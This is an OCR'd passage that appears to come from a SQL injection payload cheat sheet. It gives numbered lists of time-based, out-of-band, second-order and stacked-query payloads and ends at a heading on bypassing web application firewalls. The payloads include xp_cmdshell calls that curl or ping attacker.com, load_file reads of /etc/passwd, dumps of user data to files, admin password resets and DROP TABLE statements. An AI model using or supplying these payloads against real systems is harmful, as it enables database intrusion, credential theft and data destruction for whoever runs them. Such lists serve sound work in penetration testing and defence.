 ```
1. ' OR SLEEP(5) -- 
2. ' AND IF(1=1, SLEEP(5), 0) -- 
3. ' AND (SELECT SLEEP(10)) -- 
4. ' AND 1=1 WAITFOR DELAY '00:00:10' --
5. ' AND (SELECT CASE WHEN (1=1) THEN SLEEP(5) ELSE 0 END) --
6. ' AND (SELECT pg_sleep(5)); --
7. ' AND IF((SELECT COUNT(*) FROM users) > 0, SLEEP(5), 0); --
8. ' OR IF(1=1, SLEEP(5), NULL) -- 
9. ' AND (SELECT COUNT(*) FROM users) > 0 AND SLEEP(10) -- 
10. ' AND (SELECT CASE WHEN (1=1) THEN DBMS_LOCK.SLEEP(10) ELSE NULL END);
```
    

5. Out-of-Band Injection

      
```
1. '; EXEC xp_cmdshell('nslookup example.com') -- 
2. '; SELECT load_file('/etc/passwd'); -- 
3. '; EXECUTE IMMEDIATE 'LOAD_FILE('/path/to/file')'; --
4. '; EXEC xp_cmdshell('ping -c 4 attacker.com') -- 
5. '; SELECT (SELECT COUNT(*) FROM users) INTO OUTFILE '/tmp/output.txt'; -- 
6. '; SELECT SLEEP(5) INTO OUTFILE '/tmp/output.txt'; --
7. '; EXEC xp_cmdshell('curl http://attacker.com') -- 
8. '; SELECT 'test' INTO OUTFILE '/var/www/html/output.txt'; -- 
9. '; EXEC xp_cmdshell('whoami') -- 
10. '; SELECT (SELECT GROUP_CONCAT(username SEPARATOR ':') FROM users) INTO OUTFILE '/tmp/users.txt'; --
```
    

6. Second-Order Injection

      
```
1. '; INSERT INTO users (username, password) VALUES ('admin', 'password') -- 
2. '; INSERT INTO products (name) VALUES ('test' -- 
3. '; UPDATE users SET password='new_password' WHERE username='admin'; --
4. '; DELETE FROM users WHERE username='attacker'; --
5. '); SELECT * FROM users -- 
6. '); UPDATE products SET price=0 WHERE name='product'; --
7. '); INSERT INTO payments (amount) VALUES (1000); --
8. '); DROP TABLE logging; --
9. '); CREATE TABLE test (id INT); --
10. '); SET @a=(SELECT COUNT(*) FROM users); --
```
    

7. Stacked Queries

      
```
1. '; SELECT * FROM users; -- 
2. '; SELECT * FROM products; DROP TABLE test; -- 
3. '; SELECT CURRENT_USER(); SELECT DATABASE(); --
4. '; SELECT 1; SELECT sleep(5); --
5. '; INSERT INTO users (username, password VALUES ('test', 'test'); -- 
6. '; SELECT version(); SHOW DATABASES; --
7. '; UPDATE users SET password='password' WHERE username='admin'; SELECT * FROM users; --
8. '; DELETE FROM users WHERE username='guest'; SELECT * FROM users; --
9. '; EXEC xp_cmdshell('whoami'); SELECT * FROM users; --
10. '; CREATE TABLE test (id INT); SELECT * FROM test; --
```    
8. Bypassing Web Application Firewalls (WAFs)
